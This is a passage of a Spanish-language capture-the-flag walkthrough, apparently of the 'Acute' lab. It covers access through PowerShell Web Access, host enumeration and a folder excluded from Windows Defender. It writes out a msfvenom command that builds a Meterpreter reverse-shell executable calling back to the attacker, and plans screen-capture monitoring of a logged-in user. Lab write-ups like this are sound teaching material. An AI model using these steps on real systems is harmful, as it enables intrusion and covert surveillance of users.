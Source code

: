 <figure><img src="../../../../../.gitbook/assets/2688_vmware_nAqA5rSQ8t.png" alt="" width="316"><figcaption></figcaption></figure>

Verificamos que hemos podido ganar acceso con el usuario a la PowerShell Web Access.

<figure><img src="../../../../../.gitbook/assets/2689_vmware_JUNmmisPp2.png" alt=""><figcaption></figcaption></figure>

Al verificar en el equipo que nos encontramos. nos damos cuenta que se trata de un equipo y no del Domain Controller.

```powershell
ipconfig
```

<figure><img src="../../../../../.gitbook/assets/2690_vmware_fcQbrLy16C.png" alt=""><figcaption></figcaption></figure>

Revisando los directorios de la máquina _**Acute-PC01**_, verificamos que hay una ruta (C:\Utils) la cual es un directorio que no tiene el Windows Defender activo.

```powershell
dir -Force

type desktop.ini
```

<figure><img src="../../../../../.gitbook/assets/2691_vmware_RpegAuWz97.png" alt=""><figcaption></figcaption></figure>

## Monitoring by capturing the victim's screen (msfconsole)

Enumerando el equipo, verificamos que el usuario _**edavies**_ tiene una consola activa en estos momentos, lo cual nos hace pensar que el usuario está con una consola CMD/PowerShell activa.

```powershell
qwinsta /server:127.0.0.1
```

<figure><img src="../../../../../.gitbook/assets/2692_vmware_xUVSAgctNs.png" alt=""><figcaption></figcaption></figure>

El objetivo será monitorear el equipo de la víctima a través de capturas de pantalla, una utilidad que nos ofrece _**msfconsole**_.

El primer paso será realizar un binario de una Reverse Shell de Meterpreter a través de la herramienta _**msfvenom.**_

Una vez generado el payload de la Reverse Shell, procederemos a acceder a la consola interactiva de Metasploit.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.3 LPORT=443 -f exe > shell.exe

msfconsole
```

<figure><img src="../../../../../.gitbook/assets/2693_vmware_MOVv6KCEFd.png" alt=""><figcaption></figcaption></figure>

Configuraremos la sesión de Metasploit para recibir la Reverse Shell. Levantaremos un servidor web con Python para compartir el binario del payload y desde la consola de PowerShell Web Access procederemos a transferirnos el binario al equipo _**Acute-PC01**_.
